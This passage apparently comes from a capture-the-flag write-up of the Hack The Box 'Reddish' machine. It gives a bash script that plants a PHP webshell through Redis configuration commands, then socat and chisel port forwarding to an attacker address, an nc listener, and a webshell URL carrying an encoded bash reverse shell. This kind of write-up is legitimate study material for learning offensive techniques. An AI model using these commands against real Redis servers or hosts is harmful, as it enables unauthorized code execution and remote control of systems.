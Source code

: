 ```bash
#!/bin/bash

## be sure to be in the same directory where the webshell is
cat x.php | redis-cli -h 127.0.0.1 -x set reverse

redis-cli -h 127.0.0.1 config set dir /var/www/html/8924d0549008565c554f8128cd11fda4/

redis-cli -h 127.0.0.1 config set dbfilename "x.php"

redis-cli -h 127.0.0.1 save
```

In case the webshell gets deleted re-run the script
```bash
bash redis-upload.sh
```

Remote command execution is obtained on 172.19.0.2.
![rce 172.19.0.2](/img/htb/reddish/rce_172_19_0_2.png)

The attacker machine then transfers socat to the nodered container which the attacker machine has access, using socat it listens all the connections on port 9002 and redirects it to the attacker machine on port 9002, before doing this chisel is stopped with ctrl+c. [socat guide](https://www.cyberciti.biz/faq/linux-unix-tcp-port-forwarding/)

```bash
root@nodered:/tmp/workspace_nodered_container## ./socat TCP-LISTEN:9002,fork TCP:10.10.14.26:9002 &
```

Making use of chisel the ports from the other 2 machines are forwarded to the attacker machine again

```bash
./chisel client 10.10.14.26:1234 R:81:172.19.0.2:80 R:6379:172.19.0.3:6379
```

Upload the webshell again.

```bash
bash redis_upload.sh
```

On the attacker machine a listener is created on port 9002
```bash
nc -lnvp 9002
```
Using the webshell an interactive bash session is forwarded from 172.19.0.2 to 172.19.0.4 
```bash
http://127.0.0.1:81/8924d0549008565c554f8128cd11fda4/x.php?x=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/172.19.0.4/9002%200%3E%261%22
```
